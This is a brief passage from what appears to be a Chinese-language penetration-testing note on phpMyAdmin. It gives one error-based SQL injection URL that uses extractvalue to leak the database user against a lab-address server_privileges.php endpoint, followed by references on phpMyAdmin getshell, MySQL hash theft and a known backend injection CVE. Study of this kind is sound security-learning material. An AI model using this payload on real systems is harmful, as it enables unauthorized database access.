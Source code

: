 报错注入

```sql
http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```







# 参考资料

- [phpmyadmin 后台 getshell 及漏洞利用](https://xxxxx.com/sec/496.html#menu_index_3)

- [Mysql 在渗透测试中的利用](https://www.k0rz3n.com/2018/10/21/Mysql%20%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E5%88%A9%E7%94%A8/#1-win-%E4%B8%8B%E5%B8%B8%E8%A7%81%E7%9A%84%E6%95%8F%E6%84%9F%E6%96%87%E4%BB%B6%EF%BC%9A)

- [利用phpmyadmin getshell(非实战，在本地环境下进行)](https://blog.csdn.net/weixin_43940853/article/details/104527925)

- [获取MySQL中user.MYD中hash技巧](http://www.dengb.com/wzaq/1017388.html)

- [vulhub](https://github.com/vulhub/vulhub)

- [phpMyAdmin后台SQL注入(CVE-2020-0554)](https://zhuanlan.zhihu.com/p/138266875)


